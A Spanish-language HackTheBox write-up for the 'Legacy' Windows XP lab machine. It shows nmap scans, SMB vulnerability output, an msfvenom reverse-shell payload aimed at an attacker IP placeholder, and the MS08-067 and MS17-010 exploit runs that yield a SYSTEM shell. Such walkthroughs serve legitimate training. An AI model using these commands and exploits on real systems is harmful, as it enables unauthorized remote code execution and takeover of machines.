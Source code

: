 ```yaml
---
layout: single
title: HackTheBox - Máquina Legacy
excerpt: "Solución de la máquina Legacy de Hack the Box"
date: 2021-03-21
classes: wide
header:
  teaser: /assets/images/htb/legacy/legacy.png
  teaser_home_page: true
tags:
  - Htb
  - Pentesting
  - Windows
  - Easy
---
```


<p align="center">
<img src="/assets/images/htb/legacy/legacy.png">
</p>

# Enumeración

Lanzamos un escaneo de todos los puertos con el estado open para ver que servicios hay corriendo.

```bash
nmap -p- --open -sS --min-rate=5000 -T5 -n -Pn -vvv 10.10.10.4 -oG allPorts
```

Después, lanzamos otro escaneo para obtener versiones.

```bash
nmap -sC -sV -p139,445 10.10.10.4 -oN targeted
```

El resultado que obtenemos es el siguiente:

```text
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
```


# Explotación

Vamos a lanzar la búsqueda de vulnerabilidades sobre los servicios de samba.

```bash
nmap --script smb-vuln* -p139,445 -Pn 10.10.10.4
```

Y obtenemos lo siguiente:

```text
Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14

```

## MS08-067

Nos descargamos el [exploit de github](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py), generamos un shellcode y editamos el script:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip_atacante> LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

Tuve que hacer algunos cambios para que funcionara con python 3 como los print y la excepción del import, por último lo lanzamos y obtenemos la reverse shell.

```bash
python3 ms08-067.py 10.10.10.4 6 445
```

Al intentar hacer un whoami para ver el usuario que tenemos nos da un error, por lo que nos vamos a compartir los binarios de windows (mediante smbserver en impacket) y lo vamos a lanzar a través de la carpeta compartida:

```bash
python3 smbserver.py <nombre_recurso> /usr/share/windows-binaries
```

Y desde la consola de la máquina víctima lanzamos el whoami:

```bash
\\<ip_atacante>\<recurso_compartido>\whoami.exe
```

Y obtenemos el siguiente usuario:

```bash
C:\WINDOWS\system32>\\XX.XX.XX.X\shared\whoami.exe
\\XX.XX.XX.X\shared\whoami.exe
NT AUTHORITY\SYSTEM
```

## MS17-010

He probado otros scripts e intentado hacerlos funcionar pero me daba error de NETBIOS time out, hasta que he dado con [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

Ejecutamos zzz_exploit.py y obtenemos una shell.

```bash
python3 zzz_exploit.py 10.10.10.4
```